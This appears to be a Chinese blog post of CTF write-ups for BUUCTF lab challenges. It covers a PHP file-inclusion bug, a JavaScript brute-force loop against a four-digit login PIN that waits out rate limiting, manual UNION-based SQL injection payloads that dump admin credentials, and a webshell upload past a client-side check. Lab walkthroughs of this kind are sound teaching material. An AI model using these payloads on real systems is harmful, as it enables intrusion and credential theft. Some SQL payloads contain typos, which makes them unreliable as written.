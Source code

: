 ```yaml
---
title: "BUUCFT 题解"
date: 2023-07-23T08:19:53+08:00
markup: pandoc
draft: false
categories:
- BUUCFT
tags:
- BUUCFT
- 题解
hash: fe85798f9dc0fb130ba13b576d5b8fb92586f85f
---
```


娱乐性质，玩一玩。

## Linux Lab

使用 ssh 连接到靶机即可。

```shell
ssh root@address -p port
```

flag.txt 就放在根目录下面。

## BUUCFT

打开页面，首先给了一段代码。

```php
<?php
/**
 * Created by PhpStorm.
 * User: jinzhao
 * Date: 2019/7/9
 * Time: 7:07 AM
 */

highlight_file(__FILE__);

if(isset($_GET['file'])) {
    $str = $_GET['file'];

    include $_GET['file'];
}
```

这里的意思是，高亮当前文件，判断是否存在为 file 的 query 参数，如果存在，就加载它。

尝试一下 `?file=flag.txt` ，文件不存在；尝试 `?file=flag` ，页面中显示了 flag 。

## 暴力破解 1

首先是一个登录页面，查看了一下 HTML 代码，很干净，没有任何其他的东西。尝试写了句 SQL 注入，不行，所以没有注入的口子。

![](../img/buuctf_brute_1.png)

尝试用户名，是 admin 。尝试密码 1234 ，结果报密码错误，密码为四位数字。这里就只能写代码遍历所有四位整数了。因为频繁请求会被 429 ，但慢慢请求又太慢，所以只能遇到一个 429 就等待一下。

```javascript
function sleep(time) {
    return new Promise((resolve) => {
        setTimeout(resolve, time);
    });
}

(async () => {
    for (let i = 1000; i <= 9999; i++) {
        const result = await fetch(
            "http://26a432d9-687e-4232-a5ae-68052673cfa1.node4.buuoj.cn:81/?username=admin&password=" +
            i,
        ).then((res) => res.text());

        console.log(i);
        if (!result.startsWith("密码错误")) {
            if (result.includes("429")) {
                await sleep(500);
                i--;
                continue;
            }
            console.log(result);
            console.log(i);
            break;
        }
    }
})();
```

跑完后，结果是 6490 。

## BUU SQL COURSE 1

看题目是 SQL 注入。

登录没有注入，是个幌子。注入点在获取新闻详情里。

使用 `id=1 and 1=1` ，无报错，正常回显，存在注入。

这里使用手动注入，首先要确定 SQL 返回结果的列数，使用 `id=1 order by 1` 来一个个往后推，到 `id=1 order by 3` 时结果有错，因此，结果字段是两列。

接下来确定数据库，`id=1 union select 1, database()` 。

然后确定数据库内有哪些表，`id=1 union select 1, group_concat(table_name) from information.tables where table_schema='news'` 。

确定有哪些列，`id=1 union select 1, group(column_name) from information.columns where table_name='admin'` 。

最后拿到 admin 的密码，`id=1 union select username,password from admin`

登录就可以拿到 flag 了。

关于 `information_schema` ：

1. 猜库：select schema_name from information_schema.schema
2. 猜库中的表：select table_name from information_schema.tables where table_shcema="xxx"
3. 猜表中列：select column_name from information_schema.columns where table_name="xxx"

## Upload-Labs-Linux 1

### Pass 1

提示说用了前端 JS 检查。因为本身 form 就可以上传文件，而 JS 在这里只是起到了检查的作用，我们直接禁用 JS 即可。当然，我们也可以通过接口请求来绕过，只要不走这个 JS 就行。

我们需要上传一个 [webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) ，因为我用的需要上传两个文件，所以就上传了两遍。完成后查看回显地址，找到我们的 webshell 链接。一旦打开，我们就成功骇入了。

执行 `cat /flag` 即可获得 flag 。
